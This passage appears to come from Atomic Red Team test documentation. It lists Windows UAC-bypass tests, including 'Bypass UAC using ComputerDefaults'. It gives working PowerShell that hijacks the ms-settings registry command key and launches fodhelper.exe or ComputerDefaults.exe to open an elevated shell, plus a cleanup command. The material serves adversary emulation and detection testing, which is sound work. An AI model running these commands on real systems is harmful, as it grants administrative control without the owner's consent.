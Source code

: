 **Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `powershell`!

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\fodhelper.exe"
```

#### Cleanup Commands:

```powershell
Remove-Item "HKCU:\software\classes\ms-settings" -force -Recurse -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #5 - Bypass UAC using ComputerDefaults (PowerShell)

PowerShell code to bypass User Account Control using ComputerDefaults.exe on Windows 10
Upon execution administrative command prompt should open

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| executable_binary | Binary to execute with UAC Bypass | path | C:&#92;Windows&#92;System32&#92;cmd.exe|

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
New-Item "HKCU:\software\classes\ms-settings\shell\open\command" -Force
New-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty "HKCU:\software\classes\ms-settings\shell\open\command" -Name "(default)" -Value "#{executable_binary}" -Force
Start-Process "C:\Windows\System32\ComputerDefaults.exe"
```

#### Cleanup Commands:
